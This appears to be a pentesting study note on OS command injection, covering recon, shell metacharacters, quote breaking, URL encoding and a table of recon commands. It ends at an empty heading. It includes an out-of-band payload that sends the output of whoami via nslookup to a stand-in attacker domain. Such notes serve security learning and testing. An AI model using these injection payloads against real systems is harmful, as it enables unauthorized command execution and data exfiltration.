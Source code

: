 ![[OS Command Injection.jpg]]
# Command Injection

# Recon

First step is to perform app mapping and identify any instances where the app appears to be interacting with the underlying OS by calling external processes or accessing the file system. The app may issue OS system commands containing any item of user supplied data (every URL, parameters, cookies, etc..).

It is recommended to probe all these instances for OS command injection.
# Background Knowledge

The characters `;`, `|` and `&` and newline `%0a` can be used to batch multiple commands one after another. Each of these characters should be used when probing for command injection vulnerabilities, as the app may reject some inputs but accept others.

The backtick \` character can also be used to encapsulate a separate command within a data item being processed by the original command. This will cause the interpreter to execute this command first before continuing to execute the remaining command string:

```bash
nslookup `whoami`.server-you-control.net
```

>[!info]
>Note that the different shell metacharacters have subtly different behaviours that may affect whether they work in certain situations, and whether they allow in-band retrieval of command output or are useful for blind exploitation.

Sometimes, the input that you control appears within quotation marks in the original command. In this situation, you need to terminate the quoted context (using " or ') before using suitable shell metacharacters to inject a new command.

Many times the injected characters need to be encoded, since they can interfere with the structure of the URL/body parameters. For example, the & and space characters may need to be URL encoded (%26 and %20) in order to be treated as part of the injection payload.

Some useful commands include:

| Purpose of command    | Linux       | Windows       |
| --------------------- | ----------- | ------------- |
| Name of current user  | whoami      | whoami        |
| Operating system      | uname -a    | ver           |
| Network configuration | ifconfig    | ipconfig /all |
| Network connections   | netstat -an | netstat -an   |
| Running processes     | ps -ef      | tasklist      |
# Simple Command Injection
